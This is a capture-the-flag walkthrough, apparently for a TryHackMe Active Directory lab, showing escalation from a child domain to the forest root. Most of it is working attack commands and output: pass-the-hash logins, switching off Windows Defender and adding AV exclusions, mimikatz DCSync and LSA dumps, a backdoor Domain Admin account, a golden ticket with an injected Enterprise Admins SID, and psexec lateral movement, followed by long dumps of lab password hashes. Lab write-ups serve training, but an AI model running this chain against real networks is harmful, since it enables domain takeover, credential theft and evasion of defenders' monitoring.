

# Moving to forest root domain

Some great resources for this part :

- the room [Exploiting Domain Trusts](https://tryhackme.com/room/exploitingad) from TryHackMe
- [From Domain Admin to Enterprise Admin](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)

## Exploiting the domain trust

In order to forge TGTs, we need the following information:

- The FQDN of the domain: thereserve.loc

From Bloodhound, requesting for trust delegation :



- The KRBTGT password hash

From previous AD dump :

```text
*krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0c757a3445acb94a654554f3ac529ede:::
```

- The Security Identifier (SID) of the domain
- The username of the account we want to impersonate

Let's open open a remote shell on the DC as Administrator:

```bash
proxychains evil-winrm -i 10.200.118.102 -u Administrator -H d3d4edcc015856e386074795aea86b3e
```

As we will need mimikatz, we should take care of windows defender if it is activated :

```powershell
(get-mppreference).DisableRealtimeMonitoring
```

```text
False
```

It's activated, so disable it :

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

```shell
cp /opt/resources/windows/mimikatz/x64/mimikatz.exe .
```

```powershell
upload mimikatz.exe
./mimikatz.exe "privilege::debug" "lsadump::dcsync /user:corp\krbtgt" "exit"
```

result :

```text
  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 02:01:23
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::dcsync /user:corp\krbtgt
[DC] 'corp.thereserve.loc' will be the domain
[DC] 'CORPDC.corp.thereserve.loc' will be the DC server
[DC] 'corp\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010202 ( ACCOUNTDISABLE NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 9/7/2022 9:58:08 PM
Object Security ID   : S-1-5-21-170228521-1485475711-3199862024-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 0c757a3445acb94a654554f3ac529ede
    ntlm- 0: 0c757a3445acb94a654554f3ac529ede
    lm  - 0: d99b85523676a2f2ec54ec88c75e62e7

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 8fea6537ee7adab6de1320740dbac5ba

* Primary:Kerberos-Newer-Keys *
    Default Salt : CORP.THERESERVE.LOCkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 899f996a627a04466da18a4c09d0d7e9a26edf5667518ee1af1e21df7e88e055
      aes128_hmac       (4096) : 7b3bb3c8cb4d2088bcf66834e1ee25d7
      des_cbc_md5       (4096) : 4c7f49bc8c43ae5b

* Primary:Kerberos *
    Default Salt : CORP.THERESERVE.LOCkrbtgt
    Credentials
      des_cbc_md5       : 4c7f49bc8c43ae5b

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  bae6fd4b82843d9e4d304a4badd9b3f8
    02  7f332daf2c53d030c3e1076c5506f8af
    03  09f55a268975ffa5244d82e245d9e1f3
    04  bae6fd4b82843d9e4d304a4badd9b3f8
    05  7f332daf2c53d030c3e1076c5506f8af
    06  872316813a9d0814fe25b0d0c0c67101
    07  bae6fd4b82843d9e4d304a4badd9b3f8
    08  e7cbfcb0558fd7d4979515002317684d
    09  e7cbfcb0558fd7d4979515002317684d
    10  d9c112011bbb88f369434b1c3e5afbe3
    11  19a08015dd7b512161a9269323c55f12
    12  e7cbfcb0558fd7d4979515002317684d
    13  50360843f3176c9a56d3aefeac757c55
    14  19a08015dd7b512161a9269323c55f12
    15  7b0bdda7cc7268092df91053be2f5d25
    16  7b0bdda7cc7268092df91053be2f5d25
    17  d548cf98bbdabe31fe5cb8251d8b624a
    18  b60aa3723fa51ae095543d456e9b17a1
    19  0cfcca0f2199155baa3a59b8bdb92f52
    20  cb420dd8b676f6c3f15a89b20655a1a5
    21  4148bcefac3662e143c134a4c2510fa3
    22  4148bcefac3662e143c134a4c2510fa3
    23  820979836790306094f15310fe7ef93a
    24  89f0a69ffe9366fccea16edbcbb2004c
    25  89f0a69ffe9366fccea16edbcbb2004c
    26  1304d0542c27897048a5a0df97a8bcf2
    27  f4e1a0222a78e49dd367bf491350ffd1
    28  f8fd60d4a6d4471d27e270ad91f9f416
    29  23cb7ac89d73a8ad38673dd39afab810


mimikatz(commandline) # exit
Bye!
```

**krbtgt Hash NTLM: 0c757a3445acb94a654554f3ac529ede**

we first need to recover two SIDs:

- The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT

```powershell
Get-ADComputer -Identity corpdc
```

```text
DistinguishedName : CN=CORPDC,OU=Domain Controllers,DC=corp,DC=thereserve,DC=loc
DNSHostName       : CORPDC.corp.thereserve.loc
Enabled           : True
Name              : CORPDC
ObjectClass       : computer
ObjectGUID        : 34336fec-45c0-42dd-82ff-8892d65bb412
SamAccountName    : CORPDC$
SID               : S-1-5-21-170228521-1485475711-3199862024-1009
UserPrincipalName :
```

**SID: S-1-5-21-170228521-1485475711-3199862024-1009**

- The SID of the "Enterprise Admins" group in the parent domain, which we will add as an extra SID to our forged TGT

This SID cannot be retrieved from the winrm session, resulting in an error `ResourceUnavailable: (Enterprise Admins:ADGroup) [Get-ADGroup], ADServerDownException`.

Administrator account is not allowed to RDP on the DC, but we still can create a user from the winrm session, and open an RDP session with this user. Create this user :

```shell
net user d1sturb3d /add M3nta11y
net group "Domain Admins" d1sturb3d /add /domain
```

open the RDP session to corpdc:

```shell
proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:corp.thereserve.loc /v:10.200.118.102
```

Finally get that SID :

```powershell
Get-ADGroup -Identity "Enterprise Admins" -Server rootdc.thereserve.loc
```

```text
DistinguishedName : CN=Enterprise Admins,CN=Users,DC=thereserve,DC=loc
GroupCategory     : Security
GroupScope        : Universal
Name              : Enterprise Admins
ObjectClass       : group
ObjectGUID        : 6e883913-d0cb-478e-a1fd-f24d3d0e7d45
SamAccountName    : Enterprise Admins
SID               : S-1-5-21-1255581842-1300659601-3764024703-519
```

**SID of Enterprise Admins group : S-1-5-21-1255581842-1300659601-3764024703-519**

So we can generate the golden ticket in own RDP session :

```powershell
./mimikatz.exe "privilege::debug" "kerberos::golden /user:Administrator /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024-1009 /service:krbtgt /rc4:0c757a3445acb94a654554f3ac529ede /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /ptt" "exit"
```

```text
  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # kerberos::golden /user:Administrator /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024-1009 /service:krbtgt /rc4:0c757a3445acb94a654554f3ac529ede /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /ptt
User      : Administrator
Domain    : corp.thereserve.loc (CORP)
SID       : S-1-5-21-170228521-1485475711-3199862024-1009
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-1255581842-1300659601-3764024703-519 ;
ServiceKey: 0c757a3445acb94a654554f3ac529ede - rc4_hmac_nt
Service   : krbtgt
Lifetime  : 5/28/2023 9:45:17 PM ; 5/25/2033 9:45:17 PM ; 5/25/2033 9:45:17 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ corp.thereserve.loc' successfully submitted for current session

mimikatz(commandline) # exit
Bye!
```

We can test in in current console :

```shell
dir \\rootdc.thereserve.loc\c$
```

```text
    Directory: \\rootdc.thereserve.loc\c$


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/14/2018   6:56 AM                EFI
d-----        5/13/2020   6:58 PM                PerfLogs
d-r---         9/7/2022   4:58 PM                Program Files
d-----         9/7/2022   4:57 PM                Program Files (x86)
d-r---         9/7/2022   4:55 PM                Users
d-----        5/28/2023   6:41 PM                Windows
-a----         4/1/2023   4:10 AM            427 adusers_list.csv
-a----        3/17/2023   6:18 AM             85 dns_entries.csv
-a----        4/15/2023   8:52 PM        3162859 EC2-Windows-Launch.zip
-a----        4/15/2023   8:52 PM          13182 install.ps1
-a----        4/15/2023   8:51 PM           1812 thm-network-setup-dc.ps1
```

by browsing on this drive, we are able to validate flags for this parent domain.

```
cd \\rootdc.thereserve.loc\c$\Users\Administrator\
```


## persistence

from evil-winrm connexion, upload psexec to corpdc (latest version [by sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)):

```shell
upload PsExec64.exe
```

Then in RDP, open a psexec session to rootdc :

```shell
cd C:\Users\Administrator\Documents\
./psexec64.exe \\rootdc.thereserve.loc -s powershell.exe -accepteula
```

This use the kerberos golden ticket.

In this session, exclude directory from AV in order to use mimikatz:

```powershell
Add-MpPreference -ExclusionPath "C:\Users\Administrator\Documents\"
```

We now have a working session on rootdc.

```shell
cp .\mimikatz.exe \\rootdc.thereserve.loc\C$\Users\Administrator\Documents\
```

Then in the psexec session to rootDC :

```shell
cd  C:\users\administrator\documents
./mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:thereserve.loc /all /csv"
```

output :

```text
  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 02:01:23
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /domain:thereserve.loc /all /csv
[DC] 'thereserve.loc' will be the domain
[DC] 'ROOTDC.thereserve.loc' will be the DC server
[DC] Exporting domain 'thereserve.loc'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
1610    sshd    cd032fb05ee82cc8dad1f2829d633dbb        66048
502     krbtgt  b232e0b2df4eb28a803bc21bf9a6cc87        66050
1008    THMSetup        b0e3295881277d07a57ecaa5734b7cd2        66048
1009    ROOTDC$ b01e6d83135ce469dfecb7b9ed1408ba        532480
1114    MAIL$   607f1dc21950866c1370eb259d3b080b        4096
1112    BANK$   556c80e048cedfd8145afa53e4ca1496        2080
1113    CORP$   c7141c16b367d3173adf801d6c7f02e9        2080
500     Administrator   7110118b12528e93d9ca7d78824efef6        66048

mimikatz #
```

Dump LSA :

```
lsadump::lsa /inject
```

result:

```
Domain : THERESERVE / S-1-5-21-1255581842-1300659601-3764024703

RID  : 000001f4 (500)
User : Administrator

 * Primary
    NTLM : 7110118b12528e93d9ca7d78824efef6
    LM   :
  Hash NTLM: 7110118b12528e93d9ca7d78824efef6
    ntlm- 0: 7110118b12528e93d9ca7d78824efef6
    ntlm- 1: 5e3d8d541c6d3891c20a503464869fa9
    lm  - 0: 78e7d9fedf65f75ed7dde23813f8251f

 * WDigest
    01  6297257bc7cbbc822cdceacc0fb7e722
    02  1953c5df00d04a8e54fa3191e67d7f39
    03  8a3c14a55c25634606107b7e4185bd4d
    04  6297257bc7cbbc822cdceacc0fb7e722
    05  c57c7e0e266687713fec066836ea6062
    06  a7133fc1079f42feaa784a63b6f85a71
    07  ec1974b6e1895ba7a41c97537af43bc0
    08  0a4e312a510ac8277a3cacc4f0747c3a
    09  34c49eff6be636b5cadb1f1a30116cca
    10  9164b02501c01e4398ea78d0e9e807c4
    11  d420ab9f3427d394da9cff5bd563492a
    12  0a4e312a510ac8277a3cacc4f0747c3a
    13  957bdd07483b38276c3a9749784f75e0
    14  daf5cb91a46b54ec3e62c1202946cc9b
    15  8d52a6f447c05e88e2d9ea13cdcac03c
    16  d25097855b4e437fb92f2c5212a99f33
    17  9a9064f79706ad4ed4ac3dde1f40b4dd
    18  aded17390a0c83e4e90541b38b1dad30
    19  ebdadee931ef20dfa0210e5dddbcde5a
    20  9ae5da6ef68f44d7734a521c655e84da
    21  cd154a24256e82e2c1ef8b04e70e3e5b
    22  a79e821d04b30b8264f48c2a4e4006bf
    23  5a34f11c0032b73c6b54ebcee18534a3
    24  960388d9c5836af9262731a35a988f6a
    25  2c756e47a0fa0b0c57cd12443b455f1d
    26  6686ec8fcf41c1ca4e7121e7c8deca7e
    27  9f72f8a9e51a3bfbc15b90f6b434ee15
    28  291443a653cb328dcfa527f9c3997866
    29  8238f6431925b459c00dd929fca25ff7

 * Kerberos
    Default Salt : THERESERVE.LOCAdministrator
    Credentials
      des_cbc_md5       : 324fb5941385528f
    OldCredentials
      des_cbc_md5       : a858fb86ea375df1

 * Kerberos-Newer-Keys
    Default Salt : THERESERVE.LOCAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : e4ea9e9bb5897c1d347fb7283cfd8058b2044ce711feca7953228d47b3a3850e
      aes128_hmac       (4096) : c410da9928fb00b0caa8704c4117fbfc
      des_cbc_md5       (4096) : 324fb5941385528f
    OldCredentials
      aes256_hmac       (4096) : 48ebe1e15968bff9df330193fd423f4788c9e199978ceb08dc783808cc23464f
      aes128_hmac       (4096) : 681f58305f910a753fd1c6412f186d23
      des_cbc_md5       (4096) : a858fb86ea375df1
    OlderCredentials
      aes256_hmac       (4096) : 48ebe1e15968bff9df330193fd423f4788c9e199978ceb08dc783808cc23464f
      aes128_hmac       (4096) : 681f58305f910a753fd1c6412f186d23
      des_cbc_md5       (4096) : a858fb86ea375df1

 * NTLM-Strong-NTOWF
    Random Value : 1e85a137327daf6f25d914fa65486fd0

RID  : 000001f5 (501)
User : Guest

 * Primary
    NTLM :
    LM   :

RID  : 000001f6 (502)
User : krbtgt

 * Primary
    NTLM : b232e0b2df4eb28a803bc21bf9a6cc87
    LM   :
  Hash NTLM: b232e0b2df4eb28a803bc21bf9a6cc87
    ntlm- 0: b232e0b2df4eb28a803bc21bf9a6cc87
    lm  - 0: b5c6760c02990dafc540f4cabeb45bbc

 * WDigest
    01  d12dfa95b4dd3bfcf637a19e17484a0b
    02  fc7056607c4d557a8e175d3b9ed24094
    03  01446ef50b10db298613c069d27f3c0e
    04  d12dfa95b4dd3bfcf637a19e17484a0b
    05  fc7056607c4d557a8e175d3b9ed24094
    06  7df7761993fd235eb2273e01d16f84e9
    07  d12dfa95b4dd3bfcf637a19e17484a0b
    08  74e47c7f839ced600731ba45fcf10838
    09  74e47c7f839ced600731ba45fcf10838
    10  4c78d1293edf1600ea6b27dbad30ce93
    11  af26f19268728349a3fca67aefb7fb2f
    12  74e47c7f839ced600731ba45fcf10838
    13  e791e2760a63cb63d980fd440066ddc6
    14  af26f19268728349a3fca67aefb7fb2f
    15  7bc0f67a6c043e3f3e1644cd2d982955
    16  7bc0f67a6c043e3f3e1644cd2d982955
    17  55c013f370a799db662a1fd2f0c2af4a
    18  e742ad19bc85f223b7c97c8c723add30
    19  0494722dfc6d4efdaad912579887d532
    20  950de9a68b0e25b52b4f70c47c17892a
    21  2816510c60ff54319a518f40d186528f
    22  2816510c60ff54319a518f40d186528f
    23  f28ea1655b51ce09abe4b8b75f4ea34b
    24  4d67b760992fcaa780893375d3ea9f46
    25  4d67b760992fcaa780893375d3ea9f46
    26  d313120dab086b6378e5f56fac4b8627
    27  263a6b4af088a2a879d1fc77cf9feb51
    28  21e175b54b4aa1dc4f607b739fd0e856
    29  edd9525fedfd31b9cba3fe49db671e5f

 * Kerberos
    Default Salt : THERESERVE.LOCkrbtgt
    Credentials
      des_cbc_md5       : 6734dfdfec5d6b1c

 * Kerberos-Newer-Keys
    Default Salt : THERESERVE.LOCkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 09368e0358046076f909972e98846790fb6d0917adf41cbdc1691e9e834d5972
      aes128_hmac       (4096) : 1d84e3e21401ba44475d744ec250ff77
      des_cbc_md5       (4096) : 6734dfdfec5d6b1c

 * NTLM-Strong-NTOWF
    Random Value : 7302233256e0f2fa7d0c869da23ebb86

RID  : 000003f0 (1008)
User : THMSetup

 * Primary
    NTLM : b0e3295881277d07a57ecaa5734b7cd2
    LM   :
  Hash NTLM: b0e3295881277d07a57ecaa5734b7cd2
    ntlm- 0: b0e3295881277d07a57ecaa5734b7cd2
    ntlm- 1: 4e49cadf2b9ac853d46981dd70f30d2e
    lm  - 0: 084251f9f5bb7a785f2532c0056576e6

 * WDigest
    01  e7460a63c88dfefdb877dbff256a9def
    02  55a048afd71c365613e015a5f1e7f85f
    03  1d5ac36f803bdbfac77f03ae55b176ea
    04  e7460a63c88dfefdb877dbff256a9def
    05  fd1ecd53d957b6ba900a75881553924e
    06  277de3fa4ca9c1cb8d643e927d4e9355
    07  bde8987f7c3de7f35e515f6d645a942c
    08  fe6382b4e8eb74e82e9e084abba78040
    09  ae2b1cc72af5ac29358bed318ec58cfd
    10  8f4d20f6ed3e19fd35581495dabe06cc
    11  87aa35378059e0408ba9ec82bfb37701
    12  fe6382b4e8eb74e82e9e084abba78040
    13  10d0038452d2e55f57df93f5e64795cb
    14  d09f69fc8253552f94e87b152b6a50ed
    15  24a72361d0e10a7713cb98c253dba1b6
    16  03edc2d6365e5bafbad234552ffb34ab
    17  73a8d3a655c663b988067c85a7ab95ea
    18  1234c33ed7f54e14e1f16d662749418e
    19  b227f18d8b3743bef9f6cb5f2d5bdce3
    20  cae9df2c6ce6fea3d662dd57476b3688
    21  793a78055fdcce9e797f55d48aa56304
    22  e9227ad046630acc35f82b4e3185f089
    23  b189b7fcb7950e7bab7d265cf4d1715e
    24  8f63d062f965ca96fb14c785f2ca6685
    25  1b09c21fd4b400209976a8c3069f0127
    26  a84308bf1a8a9defaa450a40abb455a1
    27  1cd5f33e70d34fead7c91914d83033b5
    28  76f02964795534a5bb5fc2893b464f4b
    29  881fc9ee9e5e0853afb378a04ee8f86f

 * Kerberos
    Default Salt : THERESERVE.LOCTHMSetup
    Credentials
      des_cbc_md5       : 2f04df2a3b92681f
    OldCredentials
      des_cbc_md5       : ba6426685d4f4564

 * Kerberos-Newer-Keys
    Default Salt : THERESERVE.LOCTHMSetup
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 3f4f357a563377221bebbe0ecf38a0a5b3056c38daf98a65ef9dafc9a3f596dd
      aes128_hmac       (4096) : 68a85870bfb3018ec3fcc5e8dccc903d
      des_cbc_md5       (4096) : 2f04df2a3b92681f
    OldCredentials
      aes256_hmac       (4096) : 45d11b5a0e5aa0f7a4e446e2504eef825af47c07f95f420118bd8eec9592369c
      aes128_hmac       (4096) : 345060bd6682de67c793e1b63e26146a
      des_cbc_md5       (4096) : ba6426685d4f4564

 * NTLM-Strong-NTOWF
    Random Value : d73c6d76370cc6fbc56959abfce61e81

RID  : 0000064a (1610)
User : sshd

 * Primary
    NTLM : cd032fb05ee82cc8dad1f2829d633dbb
    LM   :
  Hash NTLM: cd032fb05ee82cc8dad1f2829d633dbb
    ntlm- 0: cd032fb05ee82cc8dad1f2829d633dbb
    lm  - 0: 9608ac529a01ccbbb9a310566c7da87f

 * WDigest
    01  428c94cbc0a68916ab29af5d16cdb221
    02  30e8aa9c548ebd9b178d28dc14bc4b90
    03  584953e1928e315694338ff2325c1969
    04  428c94cbc0a68916ab29af5d16cdb221
    05  30e8aa9c548ebd9b178d28dc14bc4b90
    06  3f98d3f35e4721ee3d07028b8a68570e
    07  428c94cbc0a68916ab29af5d16cdb221
    08  8686cf37ebe8787ce0a75e93b54c1c26
    09  8686cf37ebe8787ce0a75e93b54c1c26
    10  2fb47d9245c103e5e5d925c41fc5cf68
    11  817dbff376d8513391613c044839b089
    12  8686cf37ebe8787ce0a75e93b54c1c26
    13  62d0b79b07aafd17eaba225d4ec8a151
    14  817dbff376d8513391613c044839b089
    15  e4c86a3496b8df8e003f4885d4473240
    16  e4c86a3496b8df8e003f4885d4473240
    17  17703bf99390a9d69dfe7e0971db5ae5
    18  3f6f66e8c562709709be43bb1a00fb1c
    19  cf3c4e914dc05c68cc6604f0a711d274
    20  0a9ec0bd0a58369f789df06b274db544
    21  2e49a0fee442108168c90fd50fffcff9
    22  2e49a0fee442108168c90fd50fffcff9
    23  d70e359cb236334b5e0a6c2a552babe9
    24  142ce85368d08aa3ab890db8c0c1be0e
    25  142ce85368d08aa3ab890db8c0c1be0e
    26  3a17273a3a564821c02c36d93aa6a304
    27  8d523144888385f21d3dacb893c017ea
    28  c51228cc05f0863b93f423f67601fba4
    29  380ccd7be8cb1694735e3918debc98c2

 * Kerberos
    Default Salt : THERESERVE.LOCsshd
    Credentials
      des_cbc_md5       : 492f514ff1dc2a43

 * Kerberos-Newer-Keys
    Default Salt : THERESERVE.LOCsshd
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 0ded33fc9b6ace0c1c776e632aa10559004d08c0e942700f07b9c2132cfc9aea
      aes128_hmac       (4096) : 5531b4587f2f2f2c9b3af14493499173
      des_cbc_md5       (4096) : 492f514ff1dc2a43

 * NTLM-Strong-NTOWF
    Random Value : 1f4f44904e6981c5a29491e9ac5b37db

RID  : 000003f1 (1009)
User : ROOTDC$

 * Primary
    NTLM : b01e6d83135ce469dfecb7b9ed1408ba
    LM   :
  Hash NTLM: b01e6d83135ce469dfecb7b9ed1408ba

 * WDigest
    01  05f71bb5090c023ee700d434def40706
    02  c98bb9865035f8111d967a149df9c5db
    03  05f71bb5090c023ee700d434def40706
    04  05f71bb5090c023ee700d434def40706
    05  13ad106e6218d532d93a6795ee6759e4
    06  13ad106e6218d532d93a6795ee6759e4
    07  0f4dc4f4c81643fd054aaba14f68c23f
    08  61b003768056582e80345aca45bd320b
    09  6844af74ae7c89dd62579bd180b6e095
    10  a5d3943bb8e83573ebb1ef7c6c63c262
    11  a5d3943bb8e83573ebb1ef7c6c63c262
    12  61b003768056582e80345aca45bd320b
    13  61b003768056582e80345aca45bd320b
    14  a28242e5cb5b273fab5f23fec0ddcc46
    15  b59c74539a2ba6f09b5a9730677afb8b
    16  0ea97cf519e7c8a02155626bab34c328
    17  782aa1444fd71083c83e5663f80b5eaf
    18  379b529a6c88d217a9e6c101034b43f4
    19  500cfb073142269d469ad351e04fd771
    20  379b529a6c88d217a9e6c101034b43f4
    21  ec7e16900e167e487f444111c4167ed0
    22  ea50024bca8835a255e9fe3af400e6f8
    23  ec7e16900e167e487f444111c4167ed0
    24  65766d05578be47b3ea404340061105a
    25  4c5d4cfe33c606229cbb66f9288e4000
    26  c630c1b05f2e96fdcc7b061fdeda9a62
    27  69a11bee0201deabfb831e0d3a57c305
    28  8b9aa50a5c2612c49b367c045d8ae52a
    29  69a11bee0201deabfb831e0d3a57c305

 * Kerberos
    Default Salt : THERESERVE.LOChostec2amaz-a6s61fr.thereserve.loc
    Credentials
      des_cbc_md5       : 5791e33b34dfc2f1

 * Kerberos-Newer-Keys
    Default Salt : THERESERVE.LOChostec2amaz-a6s61fr.thereserve.loc
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : d6849fd0897bc618e402fb634764daa014a6c52dcd7decb7a913354c1040047b
      aes128_hmac       (4096) : 9bac3f51e62c066ceb83c8714587d06f
      des_cbc_md5       (4096) : 5791e33b34dfc2f1

RID  : 0000045a (1114)
User : MAIL$

 * Primary
    NTLM : 607f1dc21950866c1370eb259d3b080b
    LM   :
  Hash NTLM: 607f1dc21950866c1370eb259d3b080b
    ntlm- 0: 607f1dc21950866c1370eb259d3b080b
    ntlm- 1: 9f9bf72d96ac19ac9212c974e191c31d
    ntlm- 2: ce3cfa068bae0c70897a64ebf6764231
    ntlm- 3: 10101f904690292ce22b6cf3e80b6eed
    ntlm- 4: 9ade760c0d66a96c356ccec8aa410cfe
    lm  - 0: 06a2f00d72904656cb76af157ddd802d
    lm  - 1: d888d86ae493035dcf38621e4c91d4cd
    lm  - 2: 9b3496ac807b6a32846322504ba8d917
    lm  - 3: da5dc0c97bfa3fa3a1ad69b230f0c8a1
    lm  - 4: 976a206e1a127d7f29459cb473a39117

 * WDigest
    01  6f0efa0750f3f1a0ecfe44bcb0ffc0fa
    02  7257e7cd03bb71a6ccc711c2e3496215
    03  6f0efa0750f3f1a0ecfe44bcb0ffc0fa
    04  6f0efa0750f3f1a0ecfe44bcb0ffc0fa
    05  8fd06d59cc2d3be5e825ef2c89134e8c
    06  8fd06d59cc2d3be5e825ef2c89134e8c
    07  8a9493ecbcce5a9e1a17d2cc017459c4
    08  14fba126c65f3d65a1cd9d6a999af4bc
    09  ca2145a8e7c34458efc92a13548b065f
    10  81046104ce49c74a064311a9948ab2d0
    11  81046104ce49c74a064311a9948ab2d0
    12  14fba126c65f3d65a1cd9d6a999af4bc
    13  14fba126c65f3d65a1cd9d6a999af4bc
    14  b400d59ee3dd01ea2d5870f218c0872f
    15  66743b31d9feeb6a3cc3425db1b30170
    16  8db95d748b264397caeb324b86f6ee4e
    17  d319d82d33a111be782ed4408133773c
    18  7e8c2463800fcabd2c3ab167ec249539
    19  b1b6cbe9ebd60ca2ba21e0a09eeaacb0
    20  7e8c2463800fcabd2c3ab167ec249539
    21  d1d27547fb63bdcc06749578ff733722
    22  13d5878295c529c30e18b48e79aa92d0
    23  d1d27547fb63bdcc06749578ff733722
    24  71e451f8d465d151de96f1e4d3ac618a
    25  61efa973168a15d7230c6c36d62641c3
    26  2d8c4c1bdf22309f0eed8ef3bb303933
    27  1ea75b1cbe194493cffc72e6d2a0ab64
    28  c9cf3b41d08d98c8f53adfaaf85e0fd6
    29  1ea75b1cbe194493cffc72e6d2a0ab64

 * Kerberos
    Default Salt : THERESERVE.LOChostmail.thereserve.loc
    Credentials
      des_cbc_md5       : 0ec1ba8fc1199458
    OldCredentials
      des_cbc_md5       : ce5ef8b0d0403223

 * Kerberos-Newer-Keys
    Default Salt : THERESERVE.LOChostmail.thereserve.loc
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 519a412ef315b03825b21e393446e20fbf6859632026499ba8c5cace2bf3c4e8
      aes128_hmac       (4096) : 74621bc42a2b1f18070f6ad5d35bfca4
      des_cbc_md5       (4096) : 0ec1ba8fc1199458
    OldCredentials
      aes256_hmac       (4096) : f3af4e09d31891085e6089d9ab780392081ca7cbcf00265e3489ec80e4ccba6e
      aes128_hmac       (4096) : 5f15e6b2d8a8e6d7d849c377e7971377
      des_cbc_md5       (4096) : ce5ef8b0d0403223
    OlderCredentials
      aes256_hmac       (4096) : 4cfa65e0e46697db9c2cd545cb12081bb178568d1a058dec7c5b74603bbed2cf
      aes128_hmac       (4096) : e34a77e74273806c91f85c5b8317a818
      des_cbc_md5       (4096) : c44f79648338085b

RID  : 00000458 (1112)
User : BANK$

 * Primary
    NTLM : 556c80e048cedfd8145afa53e4ca1496
    LM   :
  Hash NTLM: 556c80e048cedfd8145afa53e4ca1496
    ntlm- 0: 556c80e048cedfd8145afa53e4ca1496
    ntlm- 1: 556c80e048cedfd8145afa53e4ca1496
    ntlm- 2: e79eda16d2c090259ce4b0be8123fe21
    ntlm- 3: e79eda16d2c090259ce4b0be8123fe21
    ntlm- 4: bcf95bdb49f2faa03d4d2d74e4cc2936
    ntlm- 5: bcf95bdb49f2faa03d4d2d74e4cc2936
    ntlm- 6: 14e1daaccd1021d4ca73f76b3a7539e5
    ntlm- 7: 14e1daaccd1021d4ca73f76b3a7539e5
    ntlm- 8: e377cbd48a785dd6fd4930ee7e5c5137
    ntlm- 9: e377cbd48a785dd6fd4930ee7e5c5137
    ntlm-10: 9bd053fab61b546cbed8c9f84d3a5b7d
    ntlm-11: 9bd053fab61b546cbed8c9f84d3a5b7d
    ntlm-12: 71826d5e7e0872588ada81a757383c3c
    ntlm-13: 71826d5e7e0872588ada81a757383c3c
    ntlm-14: 43d50988a386306244ac18675b06a31a
    ntlm-15: 43d50988a386306244ac18675b06a31a
    ntlm-16: d8c8e8aabfd6075c8a4f38ac1a86c773
    lm  - 0: 2e441e08ea705c364f0a341d86244794
    lm  - 1: 898646e7847d3a2da943fddeee962a51
    lm  - 2: 2c30e1f1be3cc26069decd15c5fcb6ab
    lm  - 3: 324d6bd9b498700e1c5efafd8f5dadc9
    lm  - 4: b2bd4234f2d1e209e356eb0bc81ed63a
    lm  - 5: b86aefb82649b295eac4883f23f7c349
    lm  - 6: 8a7ea15d766c9876d0b6e57e79a2f11e
